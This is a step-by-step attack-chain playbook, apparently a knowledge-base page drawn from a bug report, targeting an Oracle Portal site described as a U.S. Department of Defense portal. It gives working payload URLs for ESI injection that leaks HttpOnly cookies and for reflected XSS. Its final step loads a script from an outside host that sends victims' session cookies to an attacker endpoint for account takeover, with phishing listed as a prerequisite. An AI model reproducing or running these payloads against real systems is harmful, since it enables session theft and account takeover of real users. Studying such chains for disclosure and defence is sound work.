

# Chained ESI Injection and Reflected XSS for Session Cookie Theft and Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow on an Oracle Portal-based U.S. Department of Defense portal, exploiting ESI injection to leak HttpOnly session cookies and reflected XSS to execute a payload that chains the vulnerabilities for automated cookie theft and potential account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools for payload testing)
- No specialized tools required; manual browsing and JavaScript execution suffice.

### Target Environment

- Oracle Portal web application
- Web platform with ESI (Edge Side Includes) enabled
- Access to public-facing endpoints like search results and portal tree views

### Initial Access Requirements

- No credentials needed; exploits public-facing vulnerabilities
- Victim must interact with the crafted malicious link (e.g., via phishing)
- Network access to the target portal (https://████████/portal/...)

## Detailed Attack Procedures

### Step 1: Demonstrate ESI Injection
procedure: [[procedures/Demonstrate-ESI-Injection-to-Extract-HttpOnly-Cookies]]

**Objective**: Exploit the ESI injection vulnerability in the search results endpoint to extract HttpOnly session cookies from HTTP headers.

**Instructions**: Navigate to the search results endpoint and inject an ESI tag via the 'ms' parameter to capture the Cookie header. Use a browser to visit the URL with the payload:

```url
https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults?osf=&ms=lol<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>lol&mo=containsall&pg=&sepg=-1&fi=&fs=&ft=&pu=1&has=&as=17%2C0%3B48%2C0&saa=ALL&po=matchall&pi=&pc=&co=equal&ci=&p_action=SUBMIT&ll=
```

Inspect the response in the Search field, where the cookies will appear between the 'lol' strings.

**Expected Output**: The page renders with the injected ESI tag expanding to include the full Cookie header value, visible in the input field.

**Success Indicators**:
- ESI tag executes without error
- HttpOnly session cookies (e.g., JSESSIONID) appear in the response between the delimiter strings

### Step 2: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-in-Show-Tree-Endpoint]]

**Objective**: Confirm the reflected XSS vulnerability in the 'title' parameter of the show_tree endpoint to enable JavaScript execution in the victim's browser.

**Instructions**: Craft a URL targeting the show_tree endpoint and inject a payload that closes the title tag and executes JavaScript. Visit the following URL in a browser:

```url
https://█████████/portal/pls/portal/PORTAL.wwexp_render.show_tree?p_otype=SITEMAP&p_request=open&p_minusimage=&p_plusimage=&p_headerimage=%2Fimages%2Fbhfind2.gif&p_show_banner=NO&p_show_cancel=NO&p_open_item=1.FOLDER.FOLDERMAP.1_0&p_open_items=0.SITEMAP.FOLDERMAP.0_-1&p_domain=wwc&p_sub_domain=FOLDERMAP&p_title=Browse+Pages</title><svg/onload=alert(domain)>&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.ft&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fi&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fs&p_datasource_data=nls_sub_domain%3Dtext%2Cnls_name%3Dfolderplpopup
```

The payload `<svg/onload=alert(domain)>` will trigger an alert box displaying the domain.

**Expected Output**: An alert dialog pops up showing the current domain, confirming JavaScript execution.

**Success Indicators**:
- Alert box executes without sanitization errors
- Arbitrary JavaScript runs in the context of the portal page

### Step 3: Chain Vulnerabilities for Cookie Theft
procedure: [[procedures/Chain-ESI-Injection-with-XSS-to-Steal-Session-Cookies]]

**Objective**: Combine the ESI injection and XSS to automatically fetch the cookie-leaking endpoint via JavaScript and exfiltrate the data to an attacker-controlled server.

**Instructions**: Modify the XSS payload in the 'title' parameter to load an external script that performs the chaining. Use the following full PoC URL:

```url
https://████████/portal/pls/portal/PORTAL.wwexp_render.show_tree?p_otype=SITEMAP&p_request=open&p_minusimage=&p_plusimage=&p_headerimage=%2Fimages%2Fbhfind2.gif&p_show_banner=NO&p_show_cancel=NO&p_open_item=1.FOLDER.FOLDERMAP.1_0&p_open_items=0.SITEMAP.FOLDERMAP.0_-1&p_domain=wwc&p_sub_domain=FOLDERMAP&p_title=Browse+Pages</title><script src='https://www.jr0ch17.com/hta3.js'></script>&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.ft&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fi&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fs&p_datasource_data=nls_sub_domain%3Dtext%2Cnls_name%3Dfolderplpopup
```

The external script at `https://www.jr0ch17.com/hta3.js` executes [[commands/Fetch-ESI-URL-and-Exfiltrate-Cookies-via-XSS]] to fetch the ESI endpoint, parse the response, extract cookies from the element with id 'x61_ms', and send them to `https://www.jr0ch17.com/ato?cookies=${cookies}`.

**Expected Output**: No visible alert; instead, a network request is made to the attacker's server with the victim's session cookies in the query parameters.

**Success Indicators**:
- Network tab shows fetch to ESI URL and subsequent exfiltration request
- Attacker server logs receive the HttpOnly session cookies

## Attack Chain Summary

### Key Achievements

1. Successful ESI injection to leak HttpOnly cookies that are otherwise inaccessible client-side
2. Reflected XSS confirmation allowing arbitrary JS execution in the portal context
3. Full chain resulting in automated session cookie theft, enabling account takeover without direct credential compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application (ESI Injection)
- [[JavaScript]] JavaScript (XSS Execution)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (via public endpoint exploitation)
- [[Execution]] Execution (JavaScript payload)
- [[Collection]] Collection (Cookie exfiltration)

---

*Last updated: 2023-10-01T00:00:00Z*
